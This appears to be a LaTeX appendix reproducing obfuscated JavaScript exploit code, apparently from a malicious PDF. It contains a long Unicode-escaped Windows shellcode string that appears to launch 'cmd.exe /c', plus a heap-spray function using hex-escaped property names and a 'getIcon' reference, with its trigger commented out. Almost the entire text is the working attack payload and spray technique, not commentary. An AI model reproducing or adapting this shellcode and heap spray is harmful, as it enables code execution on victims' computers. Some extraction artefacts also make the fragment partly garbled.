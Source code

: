 \begin{appendices}
\begin{verbatim}
"\x25\x750000%u6a00%u5000%u77ff%uff24%u2067%u57ff%u8924" +
"%ud045%uc689%uc789%uc981\x25\x75ffff\x25\x75ffff%uc031%uaef2" +
"%ud1f7%u8949%ucc4d%ubd8d%ufeb8\x25\x75ffff%u0488%u490f"+
"%u048a%u3c0e%u7522%u491f%u048a%u3c0e%u7422%u8807" +
"%u0f44%u4901%uf2eb%ucf01%uc781%u0002%u0000%u7d89" +
"%ue9c0%u0013%u0000%u048a%u3c0e%u7420%u8806%u0f04" +
"%ueb49%u01f3%u47cf%u7d89%uffc0%uf075%u406a%u558b" +
"%ufffc%u0c52%u4589%u89d4%u8bc7%ue875%u7503%u01e0" +
"%u81de%u1cc6%u0012%u8b00%ue44d%ua4f3%u7d8b%u6afc"+
"%uff00%uc075%u57ff%u8918%uc445%uff3d\x25\x75ffff%u74ff" +
"%u576a%uc389%u75ff%ufff0%ud475%uff50%u1c57%uff53" +
"%u1057%u7d8b%u81c0%uffc9\x25\x75ffff%u31ff%uf2c0%uf7ae"+
"%u29d1%u89cf%u8dfe%ub8bd%ufffd%uc7ff%u6307%u646d" +
"%uc72e%u0447%u7865%u2065%u47c7%u2f08%u2063%u8122" +
"%u0cc7%u0000%uf300%u4fa4%u07c6%u4722%u07c6%u5f00" +
"\x25\x75858d\x25\x75fdb8\x25\x75ffff\x25\x7500e8\x25\x750000\x25\x758100\x25\x752404\x25\x750010" +
"%u0000%u006a%uff50%u2477%u67ff%u6a20%uff00%u2c57" +
"%u5553%u5756%u6c8b%u1824%u458b%u8b3c%u0554%u0178" +
"%u8bea%u184a%u5a8b%u0120%ue3eb%u4932%u348b%u018b"+
"%u31ee%ufcff%uc031%u38ac%u74e0%uc107%u0dcf%uc701" +
"%uf2eb%u7c3b%u1424%ue175%u5a8b%u0124%u66eb%u0c8b" +
"%u8b4b%u1c5a%ueb01%u048b%u018b%uebe8%u3102%u89c0" +
"%u5fea%u5d5e%uc25b%u0008");


function exp() {
blah = rep(128, unes("%u4242%u4242%u4242%u4242%u4242")) + sc;
bbk = unes("%u4242%u4242");
var h="g\x65t\x49\x63\x6f\x6e";
wap = 0x24+blah["\x6c\x65\x6e\x67\x74\x68"]
while (bbk["\x6c\x65\x6e\x67\x74\x68"]<wap) bbk+=bbk;
fillbk = bbk["\x73\x75\x62\x73\x74\x72\x69\x6e\x67"](0, wap);
bk = bbk["\x73\x75\x62\x73\x74\x72\x69\x6e\x67"](0, bbk["\x6c\x65\x6e\x67\x74\x68"]-wap);
while(bk["\x6c\x65\x6e\x67\x74\x68"]+wap<0x40000) bk = bk+bk+fillbk;
mm = new Array();
return;
for (i=0;i<300;i++) mm[i] = bk + blah;

}
console.log(sc);
/*
         var inBrowser = this.external;
if (inBrowser)
          var shaft = app["\x73\x65\x74\x54\x69\x6deOut"]("exp()",1200);
else
          exp();

*/
\end{verbatim}
\endgroup

\end{appendices}